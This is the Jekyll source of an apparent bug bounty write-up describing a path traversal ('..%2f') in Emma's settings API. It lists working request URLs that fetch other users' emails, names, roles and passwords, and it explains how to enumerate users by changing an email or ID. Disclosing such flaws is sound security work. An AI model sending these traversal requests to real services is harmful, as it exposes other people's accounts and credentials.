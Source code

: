 ```yaml
---
layout: post
title: Emma Users Information Leak via endpoint traversal
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - saltedfish</p>

## Step 1:

&nbsp;&nbsp;&nbsp;visit `https://settings.e2ma.net/` and login.

&nbsp;&nbsp;&nbsp;visit `https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password` here is endpoint when you use `..%2f`,and you can visit other endpoint, this endpoint allowe get some information like email,passwrod,every sensitive data,So use `..%2f` can get other user information, like:

{% highlight php %}
https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password

https://settings.e2ma.net/api/user/..%2ftest2@root.com?fields=user_id,email,user_name_first,user_name_last,role,password
{% endhighlight %}

&nbsp;&nbsp;&nbsp;I just only have two email,so I can give you two user information for this demo!You can change `test2@root.com` to a different email address and get other user information like username password.


<img src="https://i.loli.net/2019/05/09/5cd3e8fc1cd62.jpeg">


&nbsp;&nbsp;&nbsp;But then I found can get other user email address via this endpoint,and Just need change 1900932, You can get another user’s email address,you can get everything information about this user in this endpoint: `https://settings.e2ma.net/api/user/..%2ftest1@root.com?fields=user_id,email,user_name_first,user_name_last,role,password` here is endpoint when you use `..%2f`,You can also access other endpoints as well. so...this endpoint allowe get some information like email,passwrod,every sensitive data:


<img src="https://i.loli.net/2019/05/09/5cd3e8fc20656.jpeg">